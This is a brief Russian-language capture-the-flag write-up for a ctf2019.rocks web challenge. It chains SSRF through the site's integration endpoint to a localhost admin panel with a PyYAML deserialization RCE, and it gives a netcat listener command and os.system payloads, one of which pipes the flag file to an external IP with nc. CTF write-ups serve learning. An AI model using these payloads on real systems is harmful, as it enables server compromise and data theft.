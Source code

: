 1. Смотрим, какие проверки делает сайт и отвравляем его проверить наш сервер 89.163.129.121:9999. 
Видим, что он отправляет  {"key": "test_key", "value": "test_value"} и проверяет value. Запускаем  
```
value while true; do echo -e "HTTP/1.1 200 OK\n\n  test_value" | nc -l -v -p 9999 -q 1;done
```
на 89.163.129.121 и получаем 1-й флаг.

2. Видим, что запросы через http://b121.ctf2019.rocks/integration/ на закрытый порт падают с ошибкой из  urllib3 
питона.

3. Находим админку через dirsearch. Она отдает 403 - поэтому делаем запрос http://localhost/admin/ через сайт.  Проверям как он реагирует на параметры в  http://localhost/admin/?blacklist= . Видим, что  падает с 500
ошибкой про несбалансированных кавычках. Поиск по python remote code execution привел к уязвимости в  pyyaml. 
Передаем http://localhost/admin/?blacklist=!!python/object/apply:os.system ["sleep 5"] и подтверждаем уязвимость. 
Достаем флаг в http://localhost/admin/?blacklist=!!python/object/apply:os.system [" cat flag | nc 89.163.129.121:9999"]
Находим дополнительные флаги в ./integration.db  и /etc/passwd
